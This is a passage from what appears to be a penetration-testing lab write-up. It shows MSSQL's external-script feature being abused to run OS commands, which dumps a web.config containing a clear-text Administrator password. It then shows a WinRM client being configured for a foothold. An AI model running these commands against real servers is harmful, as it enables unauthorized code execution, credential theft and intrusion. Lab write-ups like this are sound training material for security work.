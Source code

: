 After looking around the filesystem for a while, we find the local `Administrator` credentials:

```
EXEC sp_execute_external_script
@language =N'Python',
@script= N'import os; os.system("type c:\\inetpub\\wwwroot\\web.config")';
GO 
```

```
STDOUT message(s) from external script: 
C:\PROGRA~1\MICROS~1\MSSQL1~1.POO\MSSQL\EXTENS~1\POO_PUBLIC01\A093E4EB-BBD9-4913-A10A-337EB23B1BBD


STDOUT message(s) from external script: 
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <staticContent>
            <mimeMap
                fileExtension=".DS_Store"
                mimeType="application/octet-stream"
            />
        </staticContent>
        <!--
        <authentication mode="Forms">
            <forms name="login" loginUrl="/admin">
                <credentials passwordFormat = "Clear">
                    <user 
                        name="Administrator" 
                        password="EverybodyWantsToWorkAtP.O.O."
                    />
                </credentials>
            </forms>
        </authentication>
        -->
    </system.webServer>
</configuration>

Express Edition will continue to be enforced.
```

Local credentials

- name: Administrator
- password: EverybodyWantsToWorkAtP.O.O.

### Foothold

Remember that we previously discovered WinRM was listening on port 5985 and IPv6.

First, we need to setup our local attacker Windows 10 machine to trust the remote host and allow unencrypted connections (port 5985 is HTTP only).

```
PS C:\Windows\system32> winrm set winrm/config/client '@{AllowUnencrypted="true"}'
PS C:\Windows\system32> winrm set winrm/config/client '@{TrustedHosts="[dead:babe::1001]"}'
Client
    NetworkDelayms = 5000
    URLPrefix = wsman
    AllowUnencrypted = true
    Auth
        Basic = true
        Digest = true
        Kerberos = true
        Negotiate = true
        Certificate = true
```